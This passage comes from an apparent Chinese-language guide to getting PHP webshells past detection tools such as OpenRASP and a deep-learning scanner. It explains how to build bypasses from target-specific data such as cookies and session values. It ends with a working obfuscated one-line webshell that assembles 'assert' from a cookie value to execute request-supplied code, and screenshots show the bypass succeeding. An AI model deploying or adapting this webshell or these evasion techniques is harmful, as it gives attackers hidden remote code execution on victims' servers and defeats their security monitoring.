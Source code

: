 ![OpenRASP在线查杀](success-7.png)

3. #### 其它信息的差异

在针对某个特别的目标测试时，可以利用目标的特殊信息构造信息的差异，实现Webshell绕过。

如目标IP地址的唯一性、域名、特殊Cookie、Session字段和值、$_SERVER变量中可被控制的值，甚至是主机Web服务的根目录、操作系统等一些差别，发挥空间很大。

## 0x06：绕过深度学习技术的检测

当用0x05 "**1. 利用重命名前后的脚本名不同**"中的脚本来测试时，被深度学习模型技术检测Webshell给查杀了。

但是基于免杀的回调函数，利用0x05给出的"**2. 利用检测平台的信息缺失**"给出的一句话，仍然可以突破 webshell.cdxy.me平台的Webshell检测:

![OpenRASP在线查杀](success-8.png)

为了避免偶然，换个免杀函数，再测试一次。请求时设置Cookie值为`Cookie: set-domain-name=ass;`，以下示例脚本[array_intersect_ukey-cookie-ass.php](https://github.com/LandGrey/webshell-detect-bypass/blob/master/webshell/php/array_intersect_ukey-cookie-ass.php)代码也可绕过该平台的查杀，当然，以上提到的其它工具和平台也可以绕过。

```php
<?php
/**
 *  Noticed: (PHP 5 >= 5.4.0, PHP 7)
 *
 */
$password = "LandGrey";
$ch = $_COOKIE["set-domain-name"];
array_intersect_ukey(array($_REQUEST[$password] => 1), array(1), $ch."ert");
?>
```
